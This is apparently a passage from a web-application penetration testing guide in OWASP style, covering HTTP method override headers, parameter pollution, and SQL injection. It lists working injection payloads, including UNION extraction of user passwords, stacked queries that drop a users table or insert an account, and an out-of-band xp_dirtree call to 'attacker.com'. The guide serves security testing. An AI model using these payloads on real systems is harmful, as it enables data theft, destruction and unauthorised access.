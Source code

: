 #### Method Override Testing
```http
# HTTP Method Override headers
POST /api/users/123 HTTP/1.1
X-HTTP-Method-Override: DELETE

POST /api/users/123 HTTP/1.1  
X-Method-Override: PUT
```

### 7.4 Test for HTTP Parameter Pollution (OTG-INPVAL-004)

#### Parameter Pollution Testing
```http
# Multiple parameter values
GET /search?category=electronics&category=books HTTP/1.1

POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=user1&password=pass1&username=admin&password=admin123
```

#### JSON Parameter Pollution
```json
{
    "username": "user1",
    "password": "wrongpass", 
    "username": "admin",
    "password": "admin123"
}
```

### 7.5 Test for SQL Injection (OTG-INPVAL-005)

#### Basic SQL Injection Testing
```sql
-- Error-based SQL injection
' OR '1'='1
' UNION SELECT NULL,NULL,NULL--
' AND 1=CONVERT(int, (SELECT @@version))--

-- Boolean-based blind SQL injection
' AND 1=1--  (True condition)
' AND 1=2--  (False condition)

-- Time-based blind SQL injection
'; WAITFOR DELAY '00:00:10'--
' OR SLEEP(10)--
```

#### Advanced SQL Injection
```sql
-- Union-based data extraction
' UNION SELECT username, password FROM users--
' UNION SELECT table_name, column_name FROM information_schema.columns--

-- Stacked queries
'; DROP TABLE users; --
'; INSERT INTO users VALUES ('hacker', 'password123'); --

-- Out-of-band SQL injection
'; EXEC master..xp_dirtree '\\attacker.com\share'--
```
